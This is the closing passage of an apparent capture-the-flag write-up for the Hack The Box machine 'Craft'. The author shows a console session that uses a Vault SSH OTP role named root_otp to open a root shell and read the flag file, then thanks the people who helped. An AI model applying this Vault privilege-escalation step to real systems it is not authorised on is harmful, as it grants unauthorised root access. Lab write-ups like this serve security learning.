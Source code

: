   is clear is needed to execute something like `vault ssh -mode=otp -role=my-role user@1.2.3.4`, so we do it:

  ```console
gilfoyle@craft:~$  vault ssh -mode=otp -role=root_otp root@127.0.0.1
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,
Vault can automatically perform this step for you.
OTP for the session is: 6290d45c-541f-fb96-32c7-3e5a8aa4a256


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/



Password: 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jan  4 00:46:56 2020 from 127.0.0.1
root@craft:~# wc -c root.txt
33 root.txt
root@craft:~# 
```

And we own root!!
Again I enjoyed quite a lot doing this box a few hours it was going to be retired, and again thanks @Frundrod and [@Fugl](https://www.hackthebox.eu/profile/103596) for pointing me in the right direction.

Thanks a lot for reading, and until the next write-up.

